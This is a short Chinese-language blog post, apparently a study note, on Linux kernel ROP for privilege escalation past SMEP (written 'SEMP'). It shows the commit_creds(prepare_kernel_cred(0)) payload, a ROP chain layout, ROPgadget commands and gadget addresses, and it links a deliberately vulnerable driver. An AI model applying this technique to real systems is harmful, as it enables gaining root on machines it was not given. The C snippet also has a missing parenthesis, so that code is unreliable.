 ```yaml
---
layout: post
title: kernelrop的完整流程
excerpt: "kernel pwn"
categories: [知识总结]
comments: true
---
```

kernel rop 可以用来绕过SEMP

在传统的ret2usr中,内核流直接在用户空间运行如下代码进行权限提升
```
void __attribute__((regparm(3))) payload() {
        commit_creds(prepare_kernel_cred(0);
}
```
kernel rop链因该是如下样子
```
pop %rdi;ret
null
addr of prepare_kernel_cred()
mov %rax,%rdi;ret		#这个是rax复制到rdi
addr of commit_creds()
...
```
在64位机器中rdi是第一个参数,前三行代表了`prepare_kernel_cred(0)`,后两行代表了`commit_creds`

#### Gadgets
`/boot/vmlinuz`是压缩后的镜像,可用`extract-vmlinux`来解压

我们可以使用ropgadget来寻找gadget片段
```
vnik@ubuntu:~/ROPgadget$ ./ROPgadget.py --binary ./vmlinux > ~/ropgadget 
vnik@ubuntu:~/ROPgadget$ tail ~/ropgadget 
```
现在我们就可以搜索想要的片段了
```
vnik@ubuntu:~$ grep  ': pop rdi ; ret' ropgadget  
0xffffffff810c9ebd : pop rdi ; ret                <--- our first gadget
0xffffffff819b4827 : pop rdi ; ret 0x10b4
0xffffffff819c5f80 : pop rdi ; ret 0x161
0xffffffff819a08f2 : pop rdi ; ret 0x2eb4
0xffffffff8184806c : pop rdi ; ret 0x40a3
0xffffffff81a23854 : pop rdi ; ret 0x5b4
0xffffffff81952077 : pop rdi ; ret 0x6576
...
```
#### Vulnerable Driver
为了演示,我们需要一个有漏洞的驱动(https://github.com/vnik5287/kernel_rop)
